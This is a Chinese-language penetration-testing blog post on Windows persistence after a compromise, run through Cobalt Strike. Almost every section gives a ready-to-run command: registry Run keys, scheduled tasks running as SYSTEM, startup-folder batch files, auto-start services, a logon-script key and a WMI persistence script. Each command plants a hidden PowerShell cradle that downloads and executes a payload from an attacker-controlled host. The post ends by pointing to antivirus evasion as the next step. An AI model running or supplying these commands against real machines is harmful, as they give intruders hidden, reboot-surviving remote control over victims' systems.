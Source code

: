 ```yaml
---
title: Windows权限维持
date: 2021-05-23 13:15:04
categories: 渗透测试技巧
tags: 权限维持
---
```


#### 背景

在拿到目标系统权限之后，为了防止权限不会因系统重启或其他情况而丢失，需要建立一个持久化的据点，本文收集和整理了几种常见权限维持的技巧，目前这几种方法均会被杀软拦截，所有操作均在cs上完成。

<!--more-->

#### 权限维持

##### 注册表启动项

注册表启动项是常见的持久化方式，主要有两个路径

1. HKEY_CURRENT_USER  简写 HKCU
2. HKEY_LOCAL_MACHINE  简写 HKLM

HKCU为当前用户路径，而HKLM为机器路径

添加自启动项

需要管理员权限

```vbscript
shell reg add hklm\software\microsoft\windows\currentversion\run /v "shell" /t REG_SZ /d "c:\windows\system32\windowspowershell\v1.0\powershell.exe -nop -w hidden -c \"IEX((new-object net.webclient).downloadstring('http://192.168.1.14:8080/a'))\"" /f
```

这里采用无文件落地方式，不然可直接将**/d**参数后跟上可执行文件后门路径即可

若找不到powershell路径，可切换到根目录试试如下命令

`dir /s /b powershell.exe`

![](http://qn.laohuan.xin/2021-04-24_16-26.png)

查询刚刚添加的键值

` shell reg query hklm\software\microsoft\windows\currentversion\run`

![](http://qn.laohuan.xin/2021-04-24_16-31.png)

重启之后可上线

![](http://qn.laohuan.xin/2021-04-24_16-37.png)

##### 计划任务

计划任务在win8之前使用at命令，之后使用schtasks命令来创建或删除计划任务

此处创建的计划任务通过**/ru system**命令以管理员权限启动，所以创建此计划任务同样需要管理员权限。

```vbscript
 shell schtasks /create /tn update /tr "c:\windows\system32\windowspowershell\v1.0\powershell.exe -windowstyle hidden -Nologo -Noninteractive -ep bypass -nop -c 'IEX((new-object net.webclient).downloadstring(''http://192.168.1.14:8080/a'''))'" /sc onstart /ru system
```

**/sc**参数

1. onstart 系统启动
2. onlogon 用户登陆
3. onidle  /i 1 系统空闲,**/i**参数指定系统必须持续空闲1分钟才启动计划任务

![](http://qn.laohuan.xin/2021-04-24_17-20.png)

查看创建的计划任务

` shell schtasks /query /fo list /tn update /v `

![](http://qn.laohuan.xin/2021-04-24_20-10.png)

重启上线

![](http://qn.laohuan.xin/2021-04-24_20-03.png)

##### 启动项

放在自启动目录下的程序或快捷方式在用户登陆时都会自动启动

* 当前用户

  ` C:\Users\当前用户名\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup`

* 所有用户

  `C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp`

测试放入1.bat，实战可放入可执行恶意程序或恶意快捷方式

1.bat执行恶意powershell代码

`powershell.exe -nop -w hidden -c IEX((new-object net.webclient).downloadstring('http://192.168.1.14:8080/a'))`

##### 自启动服务

cs上可直接生成以服务运行的可执行程序，这里继续以无文件落地的方式演示实验

创建名为shell的自启动服务

`shell sc create "shell" binpath= "cmd /c start powershell.exe -nop -w hidden -c IEX((new-object net.webclient).downloadstring('http://192.168.1.14:8080/a'))"`

设置服务描述

`shell sc description "shell" "test"`

设置服务自启动

`shell sc config "shell" start= auto`

启动服务

`shell net start "shell"`

##### Logon Scripts后门

当用户登陆时触发

注册表：`HKEY_CURRENT_USER\Environment\`

创建**UserInitMprLogonScript**键值

```vbscript
shell reg add  HKCU\Environment  /v UserInitMprLogonScript /t REG_SZ  /d "c:\windows\system32\windowspowershell\v1.0\powershell.exe -nop -w hidden -c \"IEX((new-object net.webclient).downloadstring('http://192.168.1.14:8080/a'))\"" /f
```

![](http://qn.laohuan.xin/2021-04-28_21-03.png)

##### WMI

windows可通过WMI使用命令行或批处理命令来管理系统，相当于一个可与系统交互的API,windows默认安装。

网上已有利用WMI做权限维持的脚本

[**WMI-Persistence.ps1**](http://github.com/n0pe-sled/WMI-Persistence/blob/master/WMI-Persistence.ps1)

修改payload

![](http://qn.laohuan.xin/2021-04-28_21-27.png)

1.`powershell-import /home/kali/software/WMI-Persistence.ps1 `

2.`powershell Install-Persistence`

3.`powershell Check-WMI`

删除，不然会一直轮循弹shell回来

4.powershell  Remove-Persistence

![](http://qn.laohuan.xin/2021-04-28_21-38.png)

![](http://qn.laohuan.xin/2021-04-28_21-39.png)

#### 后话

目前上述所有方法都会被杀软拦截，除了对可执行程序的免杀之外，如何在杀软不会拦截的情况下实现权限维持是需要继续研究的点，上述只是一般权限维持的常见手法，还有许多思路奇特新颖的方法等着去尝试。

#### 参考链接

* [http://www.freebuf.com/articles/system/229209.html](http://www.freebuf.com/articles/system/229209.html)
* [http://xz.aliyun.com/t/8095](http://xz.aliyun.com/t/8095)

